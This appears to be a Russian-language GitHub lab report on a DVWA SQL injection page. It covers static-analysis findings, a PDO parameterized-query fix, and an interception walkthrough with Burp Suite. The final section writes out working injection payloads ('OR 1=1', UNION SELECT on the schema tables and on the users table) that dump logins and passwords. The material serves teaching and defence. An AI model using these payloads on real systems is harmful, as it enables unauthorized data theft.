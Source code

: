 # Использование статического анализатора кода для обеспечения безопасности

## Обнаружен участок кода, подверженный инъекции SQL кода:

```php
$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );
```
## Результат анализа статическим анализатором кода:

![image](https://github.com/halissha/rbpzos4_static/blob/main/img.png)

## Основные проблемы:
### Пользовательские данные подставляются в запрос без плейсхолдеров или экранирования

```
[MITRE, CWE-89] - Improper Neutralization of Special Elements used in an SQL Command
```

### Пользовательские данные не проходят проверку перед выполнением запроса

```
[MITRE, CWE-20] - Improper Input Validation
```

Вследствие игнорирования требований безопасности мошенник может сконструировать вредоносный запрос в базу данных.
Это может быть чревато потерей, модификацией, утечкой данных, или получением мошенником доступа к оболочке.

## Устранение угроз безопасности:

- Воспользуемся PDO для конструирования параметризованного запроса (PDO - расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных.)

```php
 $statement = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id;');
 $statement->bindParam("id", $id, PDO::PARAM_INT);
 $statement->execute();
```

- Обеспечим дополнительную валидацию переменной "id" по типу и длине

```php
 if (is_numeric($id) && strlen((string)$id) == 3) {
    ...
}
```
## Запахи кода:
### Файл должен содержать пустую строку в конце

Некоторые инструменты работают лучше когда файл содержит пустую строку в конце

### Убрать закрывающий тег ?> в конце файла

Согласно стандарту PSR2 закрывающий тег не требуется использовать в файле, содержащем только php-код

### Убрать пустое место после открывающей скобки и перед закрывающей скобкой

Общий принцип следование стандартам оформления кода позволяет командной разработке быть эффективнее, а коду быть более читаемым

## Результат повышения безопасности формы:

![image](https://github.com/halissha/rbpzos4_static/blob/main/image.png)

## Использование Burp Suite для нахождения уязвимости
Настроим прокси в Burp Suite для возможности перехвата запросов:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy.jpg)

Аналогично настроим прокси в ручном режиме в браузере:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy_browser.jpg)

## Перехват запросов с DVWA SQL Injection
Попробуем перехватить запрос с атакуемой страницы с помощью Interception:
![image](https://github.com/halissha/rbpzos4_static/blob/main/intercept.jpg)

## Обнаружение уязвимости с помощью Burp Suite
Проведем следующую инъекцию и получим всех пользователей, с помощью OR легко проходим валидацию:
```php
1 OR 1=1#
1+OR+1%3d1%23
```
Получим всех пользователей в ответе:
![image](https://github.com/halissha/rbpzos4_static/blob/main/users.jpg)

Теперь проведем инъекцию на обнаружение имен таблиц:
```php
1 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
1+UNION+SELECT+1,TABLE_NAME+FROM+INFORMATION.SCHEMA.TABLES%23
```
Получим имена всех таблиц, в ответе можно заметить важную таблицу users:
![image](https://github.com/halissha/rbpzos4_static/blob/main/user_table.jpg)

Следующим шагом попробуем вытащить логины и пароли из таблицы users с помощью следующей инъекции:
```php
1 UNION SELECT user, password FROM users#
1+UNION+SELECT+user,+password+FROM+users%23
```
В отвече получим логины и пароли пользователей системы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/logins_passwords.jpg)












